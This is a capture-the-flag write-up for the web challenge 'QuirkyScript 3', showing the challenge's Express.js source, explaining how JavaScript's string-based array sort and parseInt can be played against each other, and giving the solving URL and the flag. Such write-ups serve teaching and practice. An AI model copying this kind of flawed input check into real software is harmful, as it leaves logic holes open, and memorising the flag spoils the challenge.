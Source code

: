 # QuirkyScript 3
Web

## Challenge 
> Get the flag.

>http://ctf.pwn.sg:8083

>Creator - quanyang (@quanyang)

> [challenge.js](challenge.js)

## Solution

	var flag=require("./flag.js");
	var express=require('express')
	var app=express()
	app.get('/flag',function(req,res){
		if(req.query.third){
			if(Array.isArray(req.query.third)){
				third=req.query.third;
				third_sorted=req.query.third.sort();
				if (Number.parseInt(third[0]) > Number.parseInt(third[1]) && 
				    third_sorted[0] == third[0] &&
				    third_sorted[1] == third[1]){
					res.send(flag.flag);
					return;
				}
			}
		}
		res.send("Try to solve this.");
	});
	app.listen(31337)

---

Make use of `Number.parseInt()` to exploit the sorting of arrays which happens to sort negative numbers in reverse numerical order.

	http://ctf.pwn.sg:8083/flag?third[0]=-1&third[1]=-2


## Flag

	CrossCTF{th4t_r0ck3t_1s_hug3}